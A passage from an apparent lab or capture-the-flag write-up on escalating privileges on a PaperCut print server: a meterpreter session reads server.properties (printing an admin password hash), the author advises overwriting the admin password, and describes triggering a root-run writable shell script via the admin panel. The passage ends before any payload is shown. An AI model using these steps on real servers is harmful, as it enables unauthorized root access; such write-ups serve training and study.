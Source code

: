 ```
040776/rwxrwxrw-  4096    dir   2023-05-26 17:53:06 +0330  docs
040776/rwxrwxrw-  4096    dir   2023-05-26 17:53:05 +0330  providers
040776/rwxrwxrw-  4096    dir   2023-05-26 17:53:06 +0330  release
040776/rwxrwxrw-  4096    dir   2023-05-26 17:52:54 +0330  runtime
040776/rwxrwxrw-  4096    dir   2023-05-26 17:53:06 +0330  server
100776/rwxrwxrw-  3099    fil   2022-09-29 10:45:05 +0330  uninstall
100444/r--r--r--  33      fil   2025-10-21 22:03:50 +0330  user.txt

```

## Privilege escalation

looking at the processes from linpeas output, we can see `print-deploy` functionality is being run by root  
which is one of the papercut's functions

```
...
root         510  0.0  0.2   9872  5248 ?        Ssl  18:33   0:00 /home/papercut/providers/print-deploy/linux-x64/pc-print-deploy
root         561  0.0  0.8 1386528 16996 ?       Sl   18:33   0:01  _ v2023-02-14-1341/pc-print-deploy-server -dataDir=/home/papercut/providers/print-deploy/linux-x64//data -pclog.dev
...
```

in order to use these functions we need to access if from the admin panel.  
within `/home/papercut/server` you can get papercut credentials from `server.properties`  
this is where the server will be looking for when you try to login: `http://localhost:9191/user`  
you can either try to crack the hash (which i couldn't) or edit the config file and change the `admin.password`.

```
meterpreter > cat server.properties
######### Server Config Properties #########

#
# IMPORTANT:  Do not change the permissions set on this file.  For security
# reasons, this file should only be accessible by administrators.
#


### Built-in Admin User ###
admin.username=admin
### Admin Password ###
# This may be manually set to a plain text password.
# If set by the application it will be prefixed with HASH:
admin.password=HASH\:$2a$10$I9n7kuIU2a0ODXhCfc3Z4e0h4G69KaFgDdksemRoNGrQf2Hu.4Xvm

```

after you accessed admin panel go to
`Enable Printing > Import BYOD-friendly print queues > Next > Start Importing Mobility Print Printers > Refresh servers`  
before you hit **Refresh servers**, upload `pspy` and monitor for processes being created  
you can see, a shell script is being run by root which we have write access.
